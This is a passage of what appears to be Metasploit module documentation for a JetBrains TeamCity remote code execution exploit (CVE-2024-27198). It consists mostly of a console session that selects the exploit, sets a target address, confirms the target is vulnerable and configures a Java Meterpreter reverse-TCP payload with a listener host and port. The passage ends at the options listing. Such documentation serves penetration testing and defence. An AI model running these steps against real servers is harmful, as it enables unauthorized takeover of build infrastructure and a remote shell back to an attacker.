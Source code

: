### TEAMCITY_ADMIN_ID
The user ID of an administrator account on the server. As the first user created during installation is an
administrator account, the ID will be 1 by default.

## Scenarios

### Java

```
msf > use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198 
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RHOST 192.168.86.68
RHOST => 192.168.86.68
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 192.168.86.68:8111 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Windows Server 2022.
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Java
    1   Java Server Page
    2   Windows Command
    3   Linux Command
    4   Unix Command


msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set target 0
target => 0
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set payload java/meterpreter/reverse_tcp 
payload => java/meterpreter/reverse_tcp
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set LHOST eth0
LHOST => eth0
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.68    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              8111             yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```